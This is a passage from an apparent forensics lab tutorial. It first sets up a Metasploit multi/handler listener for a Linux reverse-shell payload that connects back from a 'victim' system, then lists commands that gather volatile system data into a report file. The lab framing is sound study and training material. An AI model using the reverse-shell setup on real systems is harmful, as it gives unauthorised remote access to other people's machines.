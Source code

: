    - **Why?** This creates the executable file `linux`, which can be used to establish a reverse shell connection.

4. **Set Up a Listener**:
   - Configure Metasploit to listen for incoming connections:
     ```bash
     use exploit/multi/handler
     set payload linux/x64/shell_reverse_tcp
     exploit
     ```

   - **Why?** The listener waits for the reverse shell connection initiated by the victim's system.

---

### 2. Collecting Volatile Data

#### **What Are We Doing?**
Once a system is compromised, we collect volatile data (data in memory or temporary storage) before the system is rebooted or shut down.

#### **Steps**:
1. **Create a Report File**:
   - Gain root access:
     ```bash
     sudo su
     ```
   - Create a file to document findings:
     ```bash
     echo "sysadmin investigator" > report.txt
     ```
   - **Why?** The `report.txt` file stores all collected volatile data for later analysis.

2. **Capture Volatile Data**:
   - Append important system details to the file:
     - **Date and Time**:
       ```bash
       date >> report.txt
       ```
     - **System Information**:
       ```bash
       uname -a >> report.txt
       ```
     - **Hostname**:
       ```bash
       hostname >> report.txt
       ```
     - **Network Interfaces**:
       ```bash
       ifconfig -a >> report.txt
       ```
     - **Running Processes**:
       ```bash
       ps -aux >> report.txt
       ```
     - **Routing Table**:
       ```bash
       route -n >> report.txt
       ```
